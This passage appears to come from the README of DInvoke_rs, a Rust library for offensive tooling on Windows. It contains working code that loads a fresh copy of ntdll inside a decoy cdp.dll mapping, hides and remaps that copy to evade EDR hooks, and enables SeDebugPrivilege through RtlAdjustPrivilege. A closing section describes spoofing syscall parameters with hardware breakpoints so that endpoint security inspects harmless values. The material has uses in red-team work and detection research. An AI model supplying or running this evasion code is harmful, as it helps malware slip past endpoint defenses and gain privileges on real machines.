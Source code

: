 ```rust
        // It will return the payload (ntdll) content, the decoy module (cdp) content and the payload base address.
        let overload: ((Vec<u8>, Vec<u8>), isize) = dinvoke_rs::overload::managed_read_and_overload("c:\\windows\\system32\\ntdll.dll", "c:\\windows\\system32\\cdp.dll").unwrap();
        
        // This will allow the manager to start taking care of the module fluctuation process over this mapped PE.
        // Also, it will hide ntdll, replacing its content with the legitimate cdp.dll content.
        let _r = manager.new_module(overload.1 as i64, overload.0.0, overload.0.1);

        // Now, if we want to use our fresh ntdll copy, we just need to tell the manager to remap our payload into the memory section.
        let _ = manager.map_module(overload.1 as i64);

        // After ntdll has being remapped, we can dynamically call RtlAdjustPrivilege (or any other function) without worrying about EDR hooks.
        let func_ptr:  unsafe extern "system" fn (u32, u8, u8, *mut u8) -> i32; // Function header available at data::RtlAdjustPrivilege
        let ret: Option<i32>; // RtlAdjustPrivilege returns an NSTATUS value, which is an i32
        let privilege: u32 = 20; // This value matches with SeDebugPrivilege
        let enable: u8 = 1; // Enable the privilege
        let current_thread: u8 = 0; // Enable the privilege for the current process, not only for the current thread
        let e = u8::default();
        let enabled: *mut u8 = std::mem::transmute(&e); 
        dinvoke_rs::dinvoke::dynamic_invoke!(overload.1,"RtlAdjustPrivilege",func_ptr,ret,privilege,enable,current_thread,enabled);

        match ret {
            Some(x) => 
                if x == 0 { println!("NTSTATUS == Success. Privilege enabled."); } 
                else { println!("[x] NTSTATUS == {:X}", x as u32); },
            None => panic!("[x] Error!"),
        }

        // Since we dont want to use our ntdll copy for the moment, we hide it again. It can we remapped at any time.
        let _ = manager.hide_module(overload.1 as i64);

    }
}

```

## Syscall parameters spoofing
In order to spoof the first 4 parameters of a syscall, DInvoke_rs has support for hardware breakpoints in combination with exception handlers. This allows to send not malicious parameters to a NT function, and after the EDR has inspected them, they are replaced by the original parameters before the syscall instruction is executed. For further information, check out the repository where the original idea comes from: [TamperingSyscalls](https://github.com/rad9800/TamperingSyscalls).
